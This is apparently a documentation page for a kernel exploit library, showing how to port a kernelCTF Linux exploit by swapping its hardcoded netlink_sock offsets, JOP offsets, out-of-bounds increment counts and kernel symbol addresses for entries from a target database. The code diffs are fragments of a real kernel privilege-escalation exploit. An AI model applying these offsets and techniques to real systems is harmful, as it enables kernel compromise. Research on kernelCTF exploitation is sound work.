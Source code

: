 ### Hardcoded sizes and offsets

Substitute hardcoded offsets, sizes etc (following **Steps 4-7** of ["Creating a Database" section of "How to get started" guide](how_to_get_started.md#creating-a-database)) from the original exploit:

```diff
-#define SK_RCU_OFF 744
-#define SK_DESTRUCT_OFF 720
-#define JOP_OFF (READ_BUF_SIZE - SK_RCU_OFF + SK_DESTRUCT_OFF - XATTR_HDR_LEN)

...

-#define XATTR_HDR_LEN 32
#define XATTR_DATA_LEN1 (READ_BUF_SIZE/2)
-#define XATTR_DATA_LEN2 (JOP_OFF + 8)
-
-/* How far out to inc */
-#define OOB_LOC1 688
-#define OOB_LOC2 1040
-/* Target event fds */
-#define TFD1 ((READ_BUF_SIZE - 8 + OOB_LOC1)/8)
-#define TFD2 ((READ_BUF_SIZE - 8 + OOB_LOC2)/8)
-/* Number of increments */
-#define NUM_INCS1 0x830
-#define NUM_INCS2 0xf
```

with `StaticTarget` definitions or rely on the already added symbols and structs from `target_db`. The process in case of above mentioned exploit could look like this:

* Define necessary vairables to hold offsets and sizes and initialize **TargetDb**:

    ```diff
       int main (int argc, char **argv) {
    +    long kernel_base;
    +    int xattr_header_size;
    +    int sk_rcu_off, sk_destruct_off, sk_write_space_off, netlink_bind_off;
    +    int __sk_destruct, sock_def_write_space, rtnetlink_bind, rtnetlink_bind_ret;
    +    int tfd1, tfd2, rop_off, num_incs1, num_incs2;
    +
        char name[32];
        int num_events = 0;
        int target_sock;
        int optval = 1;

    +    TargetDb kpwn_db(target_db, target_db_size);
        ```

* `StaticTarget` definitions for the exploit could look like this:

    ```diff
    +        StaticTarget st("kernelctf", "lts-6.1.61");
    +
    +        st.AddStruct("netlink_sock", 1120,
    +            {{"sk.sk_destruct", 720, 8},
    +            {"sk.sk_rcu.next", 744, 8},
    +            {"sk.sk_rcu.func", 752, 8},
    +            {"netlink_bind", 1040, 8},
    +            {"sk.sk_write_space", 688, 8}});
    +
    +        st.AddSymbol("__sk_destruct", 0xd1b360);
    +        st.AddSymbol("rtnetlink_bind", 0xd52e80);
    +
    +        kpwn_db.AddStaticTarget(st);
    ```
